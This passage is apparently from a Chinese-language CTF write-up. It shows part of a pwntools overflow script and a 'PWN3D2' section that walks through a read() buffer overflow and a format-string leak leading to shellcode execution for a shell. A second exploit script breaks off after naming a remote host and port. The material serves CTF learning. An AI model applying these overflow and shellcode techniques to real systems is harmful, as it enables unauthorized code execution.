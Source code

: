 ```python
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)

if __name__ == "__main__":

    payload = "A"*28 + "\x90\x90\x90\x90" 
    print r.recvuntil("name: \n")
    r.sendline(payload)
    print r.recv(1024)
    r.close()
```

## PWN3D2
32 bit ELF, 單純的 echo server，輸入啥 input 就印啥出來(嗎?)  
```c
int echo()
{
  int v1; // [sp+18h] [bp-14h]@1
  int v2; // [sp+1Ch] [bp-10h]@1

  v1 = 0;
  v2 = 0;
  read(0, &v1, 0x100u);
  return __printf_chk(1, &v1);
}
```
可以看到 `read()` 那邊有個 overflow 的漏洞  
然後 `__printf_chk()` 那邊也有個 format string 的漏洞  

使用 [checksec.sh](http://www.trapkit.de/tools/checksec.html) 檢查之後發現沒開 DEP  
那麼方向就很明顯了: return to shellcode  
先利用 format string leak 出 ebp, 得到目前 stack 的位置，並計算 input buffer 的 address  
透過第一次 overflow 覆寫 return address，讓程式執行完 `echo()` 之後重新回到 `echo()` 的開頭  
此時我們拿到了 input buffer 的 address  
就可以在 buffer 上面塞 shellcode  
並透過第二次的 overflow 讓 return address 跳到我們的 shellcode 上面執行拿到 shell    

要注意的是 buffer 只給我們 20 byte, 而我的 shellcode 有 23 byte  
因此最後我是將 shellcode 塞在 return address 後面，並向後跳至 shellcode 位址執行  
```python
#!/usr/bin/env python

from pwn import *
import sys
import time

HOST = "52.69.163.194"
PORT = 2222
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
```